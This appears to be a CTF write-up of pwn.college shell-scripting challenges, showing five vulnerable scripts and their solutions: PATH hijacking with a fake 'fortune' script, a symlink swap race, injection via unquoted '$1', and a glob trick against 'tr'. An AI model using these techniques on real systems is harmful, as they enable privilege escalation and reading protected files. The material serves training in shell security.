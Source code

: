 # The Transient Path

### chall

```sh
#!/opt/pwn.college/sh

fortune
```

### exploit
```
create shell script named 'fortune' in /home/hacker with content "cat /flag"
```

# Ferocious Functionality

### chall

```sh
#!/opt/pwn.college/bash

unset PATH
did you think you could hack this? It doesnt even exist!
```

### exploit
```sh
ln -s fortune did
```

last location where bash looks at for binary is current working directory

# The Surprising Swap

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

[ "$1" == "ping" ] && echo "pinged!" && read && "$0" pong
[ "$1" == "pong" ] && echo "ponged!"
```

### exploit
run /challenge/run via symlink
while /challenge/run is waiting for newline, swap symlink with 'cat /flag'

# Path of the Unquoted

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin

[ -n "$1" ] || exit 1
[ "$1" = "flag" ] && exit 2
[ $1 = "flag" ] && cat /flag

echo "Goodbye!"
```

### exploit
```sh
/challenge/run "1 = 1 -o flag"
```
due to unquoted expansion, was able to substitute $1 with any string

# Globbing Harmony

### chall
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

PATH=/usr/bin
cd /tmp
cat /flag | tr -d [A-Za-z0-9]
```

### exploit
```sh
touch /tmp/9
/challenge/run
```
"filename expansion" is used in tr command, which replaces that glob with matching file name, in our case by 9, and then truncates only character '9'.